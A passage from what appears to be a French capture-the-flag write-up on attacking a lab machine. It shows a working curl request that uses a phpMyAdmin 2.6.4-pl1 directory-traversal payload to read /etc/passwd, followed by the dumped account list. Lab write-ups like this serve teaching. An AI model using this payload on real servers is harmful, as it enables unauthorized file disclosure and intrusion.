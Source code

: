 Quand au `phpMyAdmin` il est configuré sans authentification (il était seulement bloqué par le 403). On y trouve une seule base de données avec une seule table qui n'a aucune information sensible.

## Rétro lasers en action

Il y avait fort à parier que la version du `phpMyAdmin` était vulnérable à une vulnérabilité et c'était le cas : un [exploit existe pour phpMyAdmin 2.6.4-pl1](https://www.exploit-db.com/exploits/1244) de type directory traversal.

L'exploit est écrit en `perl` et je préfère me casser un bras que de l'utiliser alors j'ai juste appliqué ce qu'il fait en commande `curl` :

```bash
$ curl -x http://192.168.1.34:3128/ \ 
-XPOST http://www.zincftp.com/phpMyAdmin/libraries/grab_globals.lib.php \
--data "usesubform[1]=1&usesubform[2]=1&subform[1][redirect]=../../../../..//etc/passwd&subform[1][cXIb8O3]=1"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
--- snip ---
syslog:x:102:103::/home/syslog:/bin/false
klog:x:103:104::/home/klog:/bin/false
bind:x:104:111::/var/cache/bind:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:106:115:MySQL Server,,,:/var/lib/mysql:/bin/false
lsanderson:x:1000:114:Lyle Sanderson:/home/lsanderson:/bin/bash
cfinnerly:x:1001:100:Chuck Finnerly:/home/cfinnerly:/bin/bash
ddonnovan:x:1002:100:David Donnovan:/home/ddonnovan:/bin/bash
skrymple:x:1003:100:Shelly Krymple:/home/skrymple:/bin/bash
amckinley:x:1004:100:Agustin Mckinley:/home/amckinley:/bin/bash
cmahong:x:1005:2002::/home/cmahong:/bin/false
lnickerbacher:x:1006:2002::/home/lnickerbacher:/bin/false
jstreet:x:1007:2002::/home/jstreet:/bin/false
rwoo:x:1008:2002::/home/rwoo:/bin/false
kmccallum:x:1009:2002::/home/kmccallum:/bin/false
cjalong:x:1010:2002::/home/cjalong:/bin/false
jsmith:x:1011:2002::/home/jsmith:/bin/false
dhammond:x:1012:2002::/home/dhammond:/bin/false
hmcknight:x:1013:2002::/home/hmcknight:/bin/false
lwestre:x:1014:2002::/home/lwestre:/bin/false
gwelch:x:1015:2002::/home/gwelch:/bin/false
dmoran:x:1016:2002::/home/dmoran:/bin/false
dsummers:x:1017:2002::/home/dsummers:/bin/false
bzimmerman:x:1018:2002::/home/bzimmerman:/bin/false
ncobol:x:1019:2002::/home/ncobol:/bin/false
ddypsky:x:1020:2002::/home/ddypsky:/bin/false
rcropper:x:1021:2002::/home/rcropper:/bin/false
cbergey:x:1022:2002::/home/cbergey:/bin/false
tmartin:x:1023:2002::/home/tmartin:/bin/false
jgacy:x:1024:2002::/home/jgacy:/bin/false
splath:x:1025:2002::/home/splath:/bin/false
evorhees:x:1026:2002::/home/evorhees:/bin/false
rfrost:x:1027:2002::/home/rfrost:/bin/false
ahuxley:x:1028:2002::/home/ahuxley:/bin/false
webmaster:x:1029:2002::/var/www:/bin/false
cmanson:x:1030:2002::/home/cmanson:/bin/false
vftp:x:1031:2002:Virtual FTP User:/dev/null:/bin/false
```
